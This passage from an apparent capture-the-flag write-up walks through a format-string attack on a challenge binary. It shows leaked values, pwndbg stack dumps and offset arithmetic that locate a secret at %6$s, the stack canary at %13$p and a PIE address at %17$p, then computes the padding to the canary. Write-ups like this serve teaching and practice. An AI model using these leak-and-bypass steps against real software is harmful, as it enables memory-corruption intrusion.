 ```python
21: b'0x4ecced99680d75cf'
22: b'(nil)\x00\x00\x00'
23: b'0x7fff875ae308'
24: b'0x559e87235d50'
```
doing this multiple times we can say that 
- %13$p is the canary value (00 at the end)
- %17$p is the main address (not 0x7f or 0xff at the start and seems like legit address value)
we can confirm our main address using gdb

```python
pwndbg> tele $rsp 30
00:0000│ rsp 0x7fffffffdc60 —▸ 0x7fffffffedd9 ◂— 0x474458006f6b6f79 /* 'yoko' */
01:0008│-038 0x7fffffffdc68 ◂— 0x0
02:0010│-030 0x7fffffffdc70 ◂— 0x0
03:0018│-028 0x7fffffffdc78 ◂— 0x610000000000
04:0020│-020 0x7fffffffdc80 ◂— 0x0
... ↓        2 skipped
07:0038│-008 0x7fffffffdc98 ◂— 0xcb1f6510ae22e500
08:0040│ rbp 0x7fffffffdca0 ◂— 0x1
09:0048│+008 0x7fffffffdca8 —▸ 0x7ffff7def6ca (__libc_start_call_main+122) ◂— mov edi, eax
0a:0050│+010 0x7fffffffdcb0 ◂— 0x0
0b:0058│+018 0x7fffffffdcb8 —▸ 0x555555555374 (main) ◂— endbr64 
0c:0060│+020 0x7fffffffdcc0 ◂— 0x100000000
```

```python
pwndbg> p 0x7fffffffdc60-0x7fffffffdcb8
$1 = -88
```
since top of the stack is the secret message, and %6$p is the start of rsp
```python
>>> 88//8 + 6
17
```
we can confirm that %17$p is the main address
### Key Findings

- The secret message is found at `%6$s`.
- The canary value is at `%13$p`.
- A PIE address is at `%17$p`.

### finding padding till canary

```python
Stack[-0x10] canary
Stack[-0x35] buffer
```
using ghidra it will show the offsets of buffer and canary
we can find the distance between
```python
>>> 0x35 - 0x10
37
>>> hex(37)
'0x25'
```
